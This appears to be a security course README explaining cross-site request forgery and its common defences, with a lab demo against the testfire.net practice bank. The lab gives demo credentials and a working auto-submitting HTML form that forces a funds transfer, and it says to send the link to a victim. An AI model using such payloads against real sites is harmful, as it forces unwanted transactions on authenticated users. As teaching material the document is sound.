  
[![made-with-html](https://img.shields.io/badge/Made%20with-HTML-1f425f.svg)](https://www.python.org/)

https://img.shields.io/badge/Instructor%20-Dr.404-brightgreen




 # Cross-Site Request Forgery (CSRF)

 - an attack that forces an end user `to execute unwanted actions` on a web application in which they’re `currently authenticated`. 

 - With a little help of `social engineering` (such as sending a link via email or chat), 

 - If the victim is a normal user, a successful CSRF attack can force the user to perform state changing requests like `transferring funds`, c`hanging their password`, and so forth. If the victim is an administrative account, CSRF can compromise the entire web application.

 [Reference-OWASP](https://owasp.org/www-community/attacks/csrf)

![CSRF](../photo/csrf.png)



# Common defenses against CSRF 

[Reference_portswigger.net](https://portswigger.net/web-security/csrf)

 The most common defenses are as follows:

- CSRF tokens - A CSRF token is a unique, secret, and unpredictable value that is generated by the server-side application and shared with the client. When attempting to perform a sensitive action, such as submitting a form, the client must include the correct CSRF token in the request. This makes it very difficult for an attacker to construct a valid request on behalf of the victim.

    
- Referer-based validation - Some applications make use of the HTTP Referer header to attempt to defend against CSRF attacks, normally by verifying that the request originated from the application's own domain. This is generally less effective than CSRF token validation.

![CSRF](../photo/anti_csrf.png)


# Lab Demo

## Lab Websit

`http://testfire.net/login.jsp`

## Lab Credentials

```
username = jsmith   
password = demo1234

```

## Example CSRF POC Form

```html
<h1>CSRF</h1>
<form id="form1" action="http://testfire.net/bank/doTransfer" method="POST">
    <input name="fromAccount" value="800002" />
    <input name="toAccount" value="4539082039396288" />
    <input name="transferAmount" value="3333" />
</form>
<script type="text/javascript">
document.getElementById('form1').submit();
</script>

```

## Labs Steps

1. Construct `CSRF Form` manaully or using burp suite  `engagement tools (csrf PoC`.

2. Run web server and send the link to victim

3. Exploit